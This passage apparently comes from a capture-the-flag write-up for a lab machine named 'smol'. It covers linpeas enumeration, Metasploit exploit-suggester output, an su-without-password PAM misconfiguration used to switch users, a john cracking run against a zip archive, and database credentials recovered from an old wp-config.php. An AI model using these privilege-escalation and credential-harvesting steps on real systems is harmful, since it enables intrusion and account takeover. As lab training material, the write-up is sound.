╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 2743 Jan 12  2024 /etc/apt/sources.list.curtin.old
-rw-r--r-- 1 root root 291970 Mar 29  2024 /opt/wp_backup.sql
-rw-r--r-- 1 root root 39448 Jan 17  2024 /usr/lib/mysql/plugin/component_mysqlbackup.so
-rw-r--r-- 1 root root 1413 Jun  2  2023 /usr/lib/python3/dist-packages/sos/report/plugins/__pycache__/ovirt_engine_backup.cpython-38.pyc


╔══════════╣ Files inside others home (limit 20)
/home/gege/.profile
/home/gege/wordpress.old.zip

╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files
/dev/mqueue
/dev/shm
/home/diego
/run/lock
/run/screen
/run/user/1002
/run/user/1002/gnupg
/run/user/1002/inaccessible
/run/user/1002/systemd
/run/user/1002/systemd/units
/tmp
/tmp/tmux-1002
/var/crash
/var/lib/php/sessions
/var/tmp

╔══════════╣ Searching root files in home dirs (limit 30)
/home/
/home/gege/.bash_history
/home/gege/.viminfo
/home/gege/wordpress.old.zip
/home/xavi/.bash_history
/home/xavi/.viminfo
/home/think/.bash_history
/home/think/.viminfo
/home/diego/.bash_history
/home/diego/.viminfo
/home/diego/user.txt
/root/
/var/www
/var/www/wordpress/wp-admin/css/colors/midnight/sedRTPrmH
/var/www/html
/var/www/html/index.php
/var/www/html/index.html.default

╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root utmp 15K Sep 30  2019 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /usr/sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 43K Feb  2  2023 /usr/sbin/unix_chkpwd
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root ssh 343K Aug  4  2023 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 83K Nov 29  2022 /usr/bin/chage
-rwxr-sr-x 1 root tty 15K Mar 30  2020 /usr/bin/bsd-write
-rwxr-sr-x 1 root shadow 31K Nov 29  2022 /usr/bin/expiry
-rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
-rwxr-sr-x 1 root tty 35K May 30  2023 /usr/bin/wall


╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
uid=1001(xavi) gid=1001(xavi) groups=1001(xavi),1005(internal)
uid=1002(diego) gid=1002(diego) groups=1002(diego),1005(internal)

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   


port 33060 another database?
```


#### Metasploit Exploit Suggester

I also ran the box through Metasploit's local exploit suggester as a second opinion, since kernel and sudo version-based privilege escalation bugs are easy to overlook by eye alone:

```bash
 #   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/gameoverlay_privesc                             Yes                      The target is vulnerable. Focal Fossa with 5.4.0-156-generic kernel is vunerable
 4   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 5   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/sudo_baron_samedit                              Yes                      The service is running, but could not be validated. sudo 1.8.31 may be a vulnerable build.
 7   exploit/linux/local/sudoedit_bypass_priv_esc                        Yes                      The target appears to be vulnerable. Sudo 1.8.31.pre.1ubuntu1.5 is vulnerable, but unable to determine editable file. OS can NOT be exploited by this module

```


### Getting user `gege`

One of the files linpeas surfaced was `/etc/pam.d/su`, and reading through its authentication rules by hand turned up something unusual enough that I wanted to verify it myself rather than trust a scanner's summary:

```bash
think@smol:~$ cat /etc/pam.d/su
#
# The PAM configuration file for the Shadow `su' service
#

# This allows root to su without passwords (normal operation)
auth       sufficient pam_rootok.so
auth  [success=ignore default=1] pam_succeed_if.so user = gege
auth  sufficient                 pam_succeed_if.so use_uid user = think
# Uncomment this to force users to be a member of group root
# before they can use `su'. You can also add "group=foo"
# to the end of this line if you want to use a group other
# than the default "root" (but this may have side effect of
# denying "root" user, unless she's a member of "foo" or explicitly
# permitted earlier by e.g. "sufficient pam_rootok.so").
# (Replaces the `SU_WHEEL_ONLY' option from login.defs)
# auth       required   pam_wheel.so

# Uncomment this if you want wheel members to be able to
# su without a password.
# auth       sufficient pam_wheel.so trust

# Uncomment this if you want members of a specific group to not
# be allowed to use su at all.
# auth       required   pam_wheel.so deny group=nosu

# Uncomment and edit /etc/security/time.conf if you need to set
# time restrainst on su usage.
# (Replaces the `PORTTIME_CHECKS_ENAB' option from login.defs
# as well as /etc/porttime)
# account    requisite  pam_time.so

# This module parses environment configuration file(s)
# and also allows you to use an extended config
# file /etc/security/pam_env.conf.
# 
# parsing /etc/environment needs "readenv=1"
session       required   pam_env.so readenv=1
# locale variables are also kept into /etc/default/locale in etch
# reading this file *in addition to /etc/environment* does not hurt
session       required   pam_env.so readenv=1 envfile=/etc/default/locale

# Defines the MAIL environment variable
# However, userdel also needs MAIL_DIR and MAIL_FILE variables
# in /etc/login.defs to make sure that removing a user 
# also removes the user's mail spool file.
# See comments in /etc/login.defs
#
# "nopen" stands to avoid reporting new mail when su'ing to another user
session    optional   pam_mail.so nopen

# Sets up user limits according to /etc/security/limits.conf
# (Replaces the use of /etc/limits in old login)
session    required   pam_limits.so

# The standard Unix authentication modules, used with
# NIS (man nsswitch) as well as normal /etc/passwd and
# /etc/shadow entries.
@include common-auth
@include common-account
@include common-session


think@smol:~$ su gege
gege@smol:/home/think$ 
```

Looking at the actual PAM stack, that `pam_succeed_if.so` line effectively lets the `think` user `su` into `gege` with no password check at all, a misconfiguration I don't run into often outside of intentionally vulnerable boxes, and it was enough to hand me a shell as `gege` directly.



`gege`'s home directory turned out to hold something else worth chasing, a password-protected zip archive, but actually opening it meant recovering its password first.





I extracted the zip's hash and set john loose on it against rockyou:

```bash
└─[$] john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt ./ziphash                           [0:30:44]
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hero_gege@hotmail.com (wordpress.old.zip)     
1g 0:00:00:01 DONE (2025-05-21 00:31) 0.7692g/s 5879Kp/s 5879Kc/s 5879KC/s hessdorfer..heiber5474
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Unzipping the archive with the cracked password turned up an old copy of `wp-config.php`, and inside it were database credentials for a different account, `xavi`, credentials that immediately looked worth reusing given how this box had already reused a WordPress password once before.

```php
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );
```


